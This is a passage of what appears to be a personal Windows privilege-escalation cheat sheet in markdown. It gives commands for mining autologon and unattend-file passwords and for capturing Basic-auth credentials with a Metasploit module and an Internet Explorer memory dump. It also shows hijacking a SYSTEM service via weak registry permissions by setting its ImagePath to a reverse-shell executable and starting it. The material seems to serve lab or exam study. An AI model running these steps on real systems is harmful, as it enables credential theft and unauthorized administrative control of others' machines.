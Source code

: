 Autologon Credentials
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon 
```

#### Password Mining Configuration Files
```
# Look for Unattend.xml used by sysadmins to setup systems, should be deleted.
# Finding unquoted service path vulnerabilities
wmic service get name,displayname,pathname,startmode | Sort
#NEED A powershell command to find the unquoted path pipe
sc qc [service]        #  to query binary path service
```

#### Passwords in Unattended.xml
```
C:\Windows\Panther\Unattend\Unattended.xml
```

#### Password Mining Memory
```bash
# Attack box
msfconsole:
use auxiliary/server/capture/http_basic
set uripath x
run
```
Then on target
```powershell
# browser -> http://attackbox_address/x
# open cmd
taskmgr
# right-click iexplorer.exe of "Image Name" column
# select "Create Dump File"
# Copy file to attack box
# On attack box
strings dump.DMP | grep "Authorization: Basic"
echo -ne base64string | base64 -d
```

## Weak Registry Permissions

Register keys have permissions, but register values do not have permissions. Values are inheirated from keys, subkeys if value or key has control of execution of a privileged process has write permissions we run code with elevated permissions. Always perform subkey inherence check.

Register keys have Plugin dlls. Point to dll and bam, but msfvenom is not your friend
[subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) permission of reg key as Powershell `get-acl` has bitmask conversion - high number means special permissions but unweildy output.
```
sc qc regsvc # Find weak registry permission, a service that runs with SYSTEM privileges
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc # sysinternals
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "Users" * /accepteula
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f 
net start regsvc
```
